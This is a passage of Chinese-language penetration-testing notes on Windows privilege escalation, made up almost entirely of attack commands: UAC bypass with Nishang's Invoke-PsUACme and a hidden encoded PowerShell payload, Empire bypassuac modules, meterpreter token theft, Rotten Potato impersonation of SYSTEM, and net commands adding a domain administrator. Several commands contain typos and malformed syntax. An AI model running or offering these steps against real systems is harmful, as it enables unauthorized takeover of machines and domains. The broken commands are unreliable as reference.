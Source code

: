- Nishang中的Invoke-PsUACme模块

```
Invoke-PsUACme -Verbose 使用sysprep方法并执行默认payload

Invoke-PsUACme -method oobe -Verbose 使用oobs方法并执行默认payload

Invoke-PsUACme -method oobe -payload "powershell -windiwstyle hidden -e YourEncodePayload" 使用-payload参数自行指定要执行的payload
```

- Empire bypassuac模块

```
1.usemoudle privesc/bypassuac
```

```
2.bypassuac_wscript模块
只适用于win7
```

### 令牌窃取
- 令牌分类

```
Delegation Tokens 授权令牌 支持交互
Impersonation Tokens 非交互式
```

- 令牌窃取

>拥有meterpreter shell

```
use incognito
list-tokens -u 列出可用令牌
impersonate_token 主机名\\用户名 假冒用户
```

- Rotten Potato(快速模拟令牌)

```
https://github.com/foxglovesec/RottenPotato.git
```

```
use incognito
list-tokens -u 列出可用令牌
upload exe
execute -HC -f rottenpotato.exe
impersonate_token "NT AUTHORITY\\SYSTEM" 
```

### 添加域管理员

- cmd

```
net user shuteer abc123 /ad /domain
net group "domain admins shuteer /ad /domain"
net group "domain_admins" /domain
```
